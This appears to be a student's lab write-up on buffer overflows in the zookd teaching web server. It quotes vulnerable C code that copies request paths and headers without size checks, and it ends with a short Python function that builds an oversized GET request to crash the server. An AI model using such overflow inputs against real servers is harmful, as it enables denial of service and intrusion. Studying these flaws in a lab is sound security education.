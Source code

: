 # LAB 1: Buffer overflows

## Part 1

### Exercise 1

### Exploits

#### Exploit 1

In `zookd.c` the `reqpath` buffer can be exploited

```c
char reqpath[4096];

if ((errmsg = http_request_line(fd, reqpath, env, &env_len)))
    return http_err(fd, 500, "http_request_line: %s", errmsg);
```

In the `url_decode` the contents from the path `sp1` are moved into `reqpath`, without size validation

```c
url_decode(reqpath, sp1);
```

We can pass a big path to exploit this vulnerability

#### Exploit 2

In `http.c` the `value` and `envvar` buffers can be exploited

```c
const char *http_request_headers(int fd)
{
    static char buf[8192];      /* static variables are not on the stack */
    int i;
    char value[512];
    char envvar[512];
```

The `envvar` buffer has 512 bytes and buf 8192 bytes

```c
    if (strcmp(buf, "CONTENT_TYPE") != 0 &&
        strcmp(buf, "CONTENT_LENGTH") != 0) {
        sprintf(envvar, "HTTP_%s", buf);
        setenv(envvar, value, 1);
    } else {
        setenv(buf, value, 1);
    }
```

We can pass a big header to exploit this vulnerability

- In `http.c` the `pn` buffer can't be exploited by a buffer overflow but maybe we can use other techniques to get file access
- In `http.c` environment variables are set based on HTTP headers this can be very dangerous 

### Exercise 2

We can send a 5000 byte path to crash the program 

```python
def build_exploit(shellcode):
    path = b"A" * 5000
    req =   b"GET /" + path + b" HTTP/1.0\r\n" + \
            b"\r\n"
    return req
```
